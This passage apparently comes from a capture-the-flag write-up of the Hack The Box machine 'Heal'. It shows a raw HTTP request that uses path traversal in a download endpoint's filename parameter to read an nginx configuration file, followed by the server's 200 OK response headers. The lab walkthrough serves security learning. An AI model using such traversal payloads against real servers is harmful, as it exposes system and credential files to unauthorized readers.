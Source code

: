 ![](images/2024-12-14_20-45_lfi_healhtb_nginx_conf.png)

```c
GET /download?filename=../../../../../etc/nginx/sites-available/api.heal.htb  HTTP/1.1
Host: api.heal.htb
Accept: */*
Access-Control-Request-Method: GET
Access-Control-Request-Headers: authorization
Origin: http://heal.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Sec-Fetch-Mode: cors
Referer: http://heal.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ


```

```c
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 14 Dec 2024 19:44:27 GMT
Content-Type: application/octet-stream
Content-Length: 456
Connection: keep-alive
access-control-allow-origin: http://heal.htb
access-control-allow-methods: GET, POST, PUT, PATCH, DELETE, OPTIONS, HEAD
access-control-expose-headers: 
access-control-max-age: 7200
x-frame-options: SAMEORIGIN
x-xss-protection: 0
x-content-type-options: nosniff
x-permitted-cross-domain-policies: none
referrer-policy: strict-origin-when-cross-origin
content-disposition: attachment; filename="api.heal.htb"; filename*=UTF-8''api.heal.htb
content-transfer-encoding: binary
cache-control: no-cache
x-request-id: 1b17c506-815b-4b0b-ba21-3e0cbc356489
x-runtime: 0.003146
vary: Origin
```